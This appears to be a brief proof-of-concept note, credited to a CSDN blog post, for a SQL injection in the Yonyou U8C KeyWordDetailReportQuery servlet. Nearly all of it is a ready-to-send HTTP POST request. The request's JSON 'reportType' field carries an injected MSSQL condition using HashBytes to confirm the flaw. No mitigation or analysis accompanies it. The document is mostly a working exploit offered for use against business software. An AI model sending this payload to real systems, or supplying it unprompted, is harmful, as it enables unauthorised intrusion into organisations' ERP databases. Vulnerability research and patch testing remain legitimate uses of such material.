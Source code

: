 # yonyou_u8c_KeyWordDetailReportQuery_sqli

from:https://blog.csdn.net/luochen2436/article/details/135268293
24/01/02

```
POST /servlet/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Content-Length: 207
Accept: */*
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Accept-Language: zh-CN,zh;q=0.8
Cache-Control: max-age=0
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip
Connection: close
SL-CE-SUID: 29

{"reportType": "' AND 2780 IN (select sys.fn_sqlvarbasetostr(HashBytes('MD5','123456'))) AND 'njGF'='njGF", "usercode": "18701014496", "keyword": [{"keywordPk": "1", "keywordValue": "1", "keywordIndex": 1}]}

```
